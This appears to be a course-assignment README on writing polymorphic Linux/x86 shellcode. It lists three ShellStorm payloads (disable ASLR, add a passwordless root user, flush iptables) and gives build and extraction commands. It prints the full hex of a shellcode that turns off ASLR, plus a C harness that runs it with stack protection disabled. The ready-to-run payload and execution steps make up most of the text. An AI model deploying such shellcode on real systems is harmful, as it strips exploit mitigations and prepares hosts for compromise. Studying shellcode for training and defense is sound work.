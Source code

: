 # Assignment 6: Polymorphism

The shellcode featured in this directory are polymorphic versions of the following three shellcodes from [ShellStorm](https://shell-storm.org)

- Shellcode 1: - [Linux/x86 - ASLR deactivation - 83 bytes](https://shell-storm.org/shellcode/files/shellcode-813.php) _by Jean Pascal Pereira_
- Shellcode 2: - [Linux/x86 - add root user (r00t) with no password to /etc/passwd - 69 bytes](https://shell-storm.org/shellcode/files/shellcode-211.php) _by Kris Katterjohn_
- Shellcode 3: - [Linux/x86 - execve() of /sbin/iptables -F - 70 bytes](https://shell-storm.org/shellcode/files/shellcode-545.php) _by zillion_

In order to generate the shellcode, it must be compiled using nasm as follows:

```bash
nasm -f elf32 -o disable_aslr_polymorphic.o disable_aslr_polymorphic.nasm
```

Link the program with ld:

```bash
ld -o disable_aslr_polymorphic disable_aslr_polymorphic.o
```

Extract the raw shellcode using the following one-liner from [CommandlineFu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)

```bash
objdump -d ./disable_aslr_polymorphic |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1d\x31\xc0\x5b\x66\xb9\xbc\x02\xb0\x08\xcd\x80\x89\xc3\x6a\x30\x89\xe1\x42\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xde\xff\xff\xff\x2f\x70\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63\x65"
```

Paste the raw shellcode into shellcode.c

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x31\xc0\x5b\x66\xb9\xbc\x02\xb0\x08\xcd\x80\x89\xc3\x6a\x30\x89\xe1\x42\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xde\xff\xff\xff\x2f\x70\x72\x6f\x63\x2f\x73\x79\x73\x2f\x6b\x65\x72\x6e\x65\x6c\x2f\x72\x61\x6e\x64\x6f\x6d\x69\x7a\x65\x5f\x76\x61\x5f\x73\x70\x61\x63\x65";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

Compile shellcode.c with gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Execute the shellcode binary
```bash
./shellcode                                                                              1 ⚙
Shellcode Length:  71
```

---
